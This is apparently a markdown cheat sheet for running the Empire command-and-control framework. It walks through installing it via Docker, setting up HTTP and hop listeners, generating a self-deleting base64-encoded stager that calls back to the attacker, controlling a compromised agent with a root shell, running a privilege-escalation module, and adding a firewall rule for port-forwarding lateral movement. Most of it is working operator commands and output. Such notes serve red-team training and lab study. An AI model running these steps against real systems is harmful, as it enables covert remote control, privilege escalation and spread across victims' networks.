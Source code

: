 ```yaml
---
title: Empire
description: Empire C2 introduction.
---
```


# Empire

## Installation

### Using Empire (CLI)

1. Pull **Empire** docker image : `docker pull bcsecurity/empire:latest`
2. Run **Empire** docker (in background) : `docker run -it --net=host -d bcsecurity/empire:latest`
3. List dockers running :

```bash
$ docker ps
CONTAINER ID   IMAGE    ...
27aaeb4e935a   bcsecurity/empire:latest   ...
```

4. Run **Empire** client on the docker : `docker exec -it 27aaeb4e935a ./ps-empire client`

### Using Empire x Starkiller (GUI)

1. Download **Starkiller** AppImage from [release](https://github.com/BC-SECURITY/Starkiller/releases/).
2. Pull **Empire** docker image : `docker pull bcsecurity/empire:latest`
3. Run **Empire** docker : `docker run -it --net=host bcsecurity/empire:latest`
4. Login on **Starkiller** : URL : `https://localhost:1337`, username : `empireadmin`, password : `password123`.

## Usage

### Empire (CLI)

Offical docs and examples, [link](https://github.com/BC-SECURITY/Empire-Cli).

Setup an HTTP listener :

```bash
(Empire) > uselistener http
[...]
(Empire: uselistener/http) > set Name listener1
[*] Set Name to listener1
(Empire: uselistener/http) > set Host 10.50.193.153 # LHOST
[*] Set Host to 10.50.193.153
(Empire: uselistener/http) > set Port 4444 # LPORT
[*] Set Port to 4444
(Empire: uselistener/http) > execute
[+] Listener http successfully started
(Empire: uselistener/http) > back
(Empire) > listeners # List all listeners

Id Name         ...
1  listener1    ...

(Empire: listeners) > kill listener1 # kill <NAME>
```

Setup a stager :

```bash
(Empire) > usestager multi/bash # multi/launcher
[...]
(Empire: usestager/multi/bash) > set Listener listener1
[*] Set Listener to listener1
(Empire: usestager/multi/bash) > execute
#!/bin/bash
echo "import sys,base64,warnings;warnings.filterwarnings('ignore');exec(base64.b64decode('aW1wb3J0IHN...'));" | python3 &
rm -f "$0"
exit
(Empire: usestager/multi/bash) > back
(Empire) >
```

Interacts with agents :

```bash
# "run stager on victim"
[+] New agent PZNAL7NS checked in
[*] Sending agent (stage 2) to PZNAL7NS at 10.200.196.200
(Empire) > agents

ID │ Name      │ IP             │ ...
1  │ PZNAL7NS* │ 10.200.196.200 │ ...
(Empire: agents) > rename PZNAL7NS GITPROD
(Empire: agents) > interact GITPROD
(Empire: GITPROD) > help
[...]
(Empire: GITPROD) > shell
[*] Exit Shell Menu with Ctrl+C
(GITPROD)  > whoami
root
(GITPROD) /root > <CTRL+C>
[!] Type exit to quit
(Empire: agents) > kill GITPROD
[>] Are you sure you want to kill GITPROD? [y/N] y
[*] Kill command sent to agent GITPROD
[*] Removed agent GITPROD from list
```

Redirect listener (hop listener) :

`ATTACKER_MACHINE <- HOP_MACHINE <- VICTIM_MACHINE`

```bash
(Empire) > uselistener http_hop
[...]
(Empire: uselistener/http_hop) > set Host 10.200.196.200 # HOP_MACHINE listen IP
[*] Set Host to 10.200.196.200
(Empire: uselistener/http_hop) > set Port 15555 # HOP_MACHINE listen PORT
[*] Set Port to 15555
(Empire: uselistener/http_hop) > set RedirectListener listener1 # Listener on ATTACKER_MACHINE
[*] Set RedirectListener to listener1
(Empire: uselistener/http_hop) > execute
[+] Listener http_hop successfully started

# Default OutFolder is /tmp/http_hop/
# If you are using docker you need to copy the folder to your host.
$ sudo docker ps
CONTAINER ID   IMAGE                    ...
31c2211149a1   bcsecurity/empire:latest ...
$ sudo docker cp 31c2211149a1:/tmp/http_hop/ .
$ scp -r http_hop/ user@HOP_MACHINE:/tmp/http_hop/
$ ssh user@HOP_MACHINE
[user@HOP_MACHINE ~] cd /tmp/http_hop/
[user@HOP_MACHINE ~] php -S 0.0.0.0:15555
PHP 7.2.24 Development Server started at Mon Feb  7 12:29:05 2022
Listening on http://0.0.0.0:15555
Document root is /tmp/http_hop
Press Ctrl-C to quit.
# Then, make a new stager for VICTIM_MACHINE and executes it.
[Mon Feb  7 12:44:44 2022] 10.200.81.150:49949 [200]: /admin/get.php
[Mon Feb  7 12:44:45 2022] 10.200.81.150:49950 [200]: /admin/get.php
[Mon Feb  7 12:44:45 2022] 10.200.81.150:49951 [200]: /news.php

# On Empire
[+] New agent U1WEADC3 checked in
[*] Sending agent (stage 2) to U1WEADC3 at 10.200.81.200
```

Use module :

```bash
# privesc module
(Empire: agents) > interact U1WEADC3
(Empire: U1WEADC3) > usemodule powershell/privesc/sherlock
[*] Set Agent to U1WEADC3

[...]
(Empire: usemodule/powershell/privesc/sherlock) > execute
[*] Tasked U1WEADC3 to run Task 1
[*] Task 1 results received
Job started: G4XF7U
[*] Task 1 results received


Title      : User Mode to Ring (KiTrap0D)
MSBulletin : MS10-015
CVEID      : 2010-0232
Link       : https://www.exploit-db.com/exploits/11199/
VulnStatus : Not supported on 64-bit systems
[...]

# portfwd module
# Goal : 10.200.81.150:21000 -> 10.200.81.100:80
(Empire: 4R1BN8FV) > shell
[*] Exit Shell Menu with Ctrl+C
(4R1BN8FV) C:\Users\Administrator\Documents > netsh advfirewall firewall add rule name="portfwd" dir=in action=allow protocol=tcp localport=21000
Ok.
(Empire: agents) > usemodule powershell/lateral_movement/invoke_portfwd
[...]
(Empire: usemodule/powershell/lateral_movement/invoke_portfwd) > set Agent 4R1BN8FV
[*] Set Agent to 4R1BN8FV
(Empire: usemodule/powershell/lateral_movement/invoke_portfwd) > set Lhost 10.200.81.150
[*] Set Lhost to 10.200.81.150
(Empire: usemodule/powershell/lateral_movement/invoke_portfwd) > set Lport 21000
[*] Set Lport to 21000
(Empire: usemodule/powershell/lateral_movement/invoke_portfwd) > set Rhost 10.200.81.100
[*] Set Rhost to 10.200.81.100
(Empire: usemodule/powershell/lateral_movement/invoke_portfwd) > set Rport 80
[*] Set Rport to 80
(Empire: usemodule/powershell/lateral_movement/invoke_portfwd) > execute
[*] Tasked 4R1BN8FV to run Task 7
[*] Task 7 results received
Job started: SM3A6W
```